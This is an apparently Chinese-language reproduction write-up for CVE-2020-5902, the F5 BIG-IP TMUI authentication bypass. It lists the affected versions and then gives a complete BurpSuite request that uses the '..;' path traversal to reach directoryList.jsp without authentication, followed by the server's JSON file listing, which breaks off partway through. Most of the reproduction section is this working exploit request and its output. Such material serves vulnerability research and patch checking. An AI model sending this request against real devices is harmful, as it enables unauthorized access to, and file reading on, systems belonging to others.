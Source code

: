 （CVE-2020-5902）F5 BIG-IP 远程命令执行漏洞
===========================================

一、漏洞简介
------------

本次漏洞位于F5
BIG-IP产品，流量管理用户页面（TMUI）存在认证绕过漏洞（CVE-2020-5902），导致可以未授权访问TMUI模块所有功能（包括未公开功能），漏洞影响范围包括执行任意系统命令、任意文件读取、任意文件写入、开启/禁用服务等。

二、漏洞影响
------------

BIG-IP 15.x: 15.1.0/15.0.0BIG-IP 14.x: 14.1.0 \~ 14.1.2BIG-IP 13.x: 13.1.0 \~ 13.1.3BIG-IP 12.x: 12.1.0 \~ 12.1.5BIG-IP 11.x: 11.6.1 \~ 11.6.5

三、复现过程
------------

### 列当前文件

    /tmui/locallb/workspace/directoryList.jsp

Example:

    directoryPath=/usr/local/www/

1.png

#### BurpSuite Request

    GET /tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/usr/local/www/ HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Cookie: JSESSIONID=65ACC6C79B31335D71E4F432DB39EA50
    Connection: close
    Upgrade-Insecure-Requests: 1

#### BurpSuite Response

          {
            "dir": "tmui",
            "children": [
              {
                "dir": "WEB-INF",
                "children": [
                  {
                    "dir": "classes",
                    "children": [
                      {
                        "dir": "org",
                        "children": [
                          {
                            "dir": "apache",
                            "children": [
                              {
                                "dir": "jsp",
                                "children": [
                                  {
                                    "dir": "common",
                                    "children": [
                                      {
                                        "file": "deleteconfirm_jsp.class"
      